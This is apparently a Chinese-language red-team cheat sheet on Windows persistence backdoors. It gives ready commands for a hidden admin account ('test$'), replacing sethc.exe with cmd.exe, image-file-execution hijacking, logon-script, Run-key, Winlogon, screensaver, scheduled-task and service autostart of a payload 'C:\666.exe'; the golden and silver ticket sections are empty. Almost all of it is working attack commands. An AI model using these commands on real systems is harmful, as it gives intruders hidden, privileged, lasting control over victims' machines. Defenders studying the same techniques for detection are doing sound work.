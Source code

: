 #### 影子账户

~~~powershell
1.使用如下命令创建隐藏用户并加入管理员组，这里test就是用户名了

net user test$ 123456 /add
net localgroup administrators test$ /add

创建成功后使用net user命令无法查看到此用户，但是在计算机管理页面中还是可以看到，需要通过修改注册表来隐藏。
~~~

#### 粘滞键后门

~~~powershell
粘滞键指的是电脑使用中的一种快捷键，专为同时按下两个或多个键有困难的人而设计的。粘滞键的主要功能是方便Shift等键的组合使用。一般的电脑连按五次shift会出现粘滞键提示。

粘滞键位置：c:\windows\system32\sethc.exe

命令：
move sethc.exe sethc1.exe
copy cmd.exe sethc.exe
~~~

#### logon scripts后门

~~~powershell
Windows登录脚本，当用户登录时触发，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截

注册表位置：HKEY_CURRENT_USER\Environment

REG ADD "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /t REG_SZ /d "C:\666.exe"    #创建键为：UserInitMprLogonScript，其键值为我们要启动的程序路径
~~~

#### 映像劫持

~~~powershell
注册表位置：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\

在此注册表位置添加项sethc.exe，添加debugger键的值为c:\windows\system32\cmd.exe

reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f
~~~

#### 注册表自启动后门

~~~
位置一：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
添加键test，值为后门程序路径。

REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v test1 /t REG_SZ /d "C:\666.exe"

位置二：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
修改键Userinit的值，重启就会自动运行程序。
~~~

[![Oc1up8.png](https://s1.ax1x.com/2022/05/14/Oc1up8.png)](https://imgtu.com/i/Oc1up8)

#### 屏幕保护程序后门

~~~powershell
注册表位置：HKEY_CURRENT_USER\Control Panel\Desktop

SCRNSAVE.EXE为默认的屏保程序，我们可将此键值设置为我们要利用的恶意程序。在本质上，.scr文件是可执行文件。
ScreenSaveActive表示屏保状态，1为启动，0为关闭。
ScreenSaverTimeout表示屏幕保护程序启动前系统的空闲事件，单位为秒，默认为900(15分钟)。
ScreenSaverIsSecure默认参数为0，标识不需要密码即可解锁。

修改SCRASAVE.EXE的值为后门程序路径，等待屏保时间自动运行。

reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "c:\666.exe" /f
~~~

#### 计划任务后门

~~~powershell
schtasks命令设定计划自动启动后门程序。

schtasks /Create /tn Updater /tr c:\666.exe /sc minute /mo 5  #每5分钟自动执行666.exe
~~~

#### 服务自启动后门

~~~powershell
自启动服务一般是在电脑启动后在后台加载指定的服务程序，我们可以将exe文件注册为服务，也可以将dll文件注册为服务。

sc create test binpath= c:\666.exe    （注意等号后面有空格）#创建服务
sc config test start= auto    #设置服务为自动启动
net start test                #启动服务
~~~

#### 金票

#### 银票





https://mp.weixin.qq.com/s/cAjdbHfNc4Kh68zzwTfJgA
